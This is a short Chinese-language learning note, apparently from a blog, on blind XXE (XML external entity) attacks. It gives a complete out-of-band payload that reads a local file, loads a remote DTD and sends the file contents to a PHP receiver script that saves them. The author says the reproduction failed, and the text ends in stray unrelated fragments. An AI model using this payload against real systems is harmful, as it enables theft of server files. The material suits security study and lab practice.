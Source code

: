 ![1646700530151-df8db52f-333c-4968-b7ee-fe3973f8dbab.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657595-1067938794.png)

```plain
在dnslog.cn平台上接受到数据，证明漏洞存在。

然后带外传递数据解决无回显：
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/www.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8081/web/php_xxe/test.dtd">
%remote;
%all;
]>
<root>&send;</root>

test.dtd：
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8081/web/get1.php?file=%file;'>">

get1.php:
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>

但是这里没有复现成功。

$$a=123
$123 =
```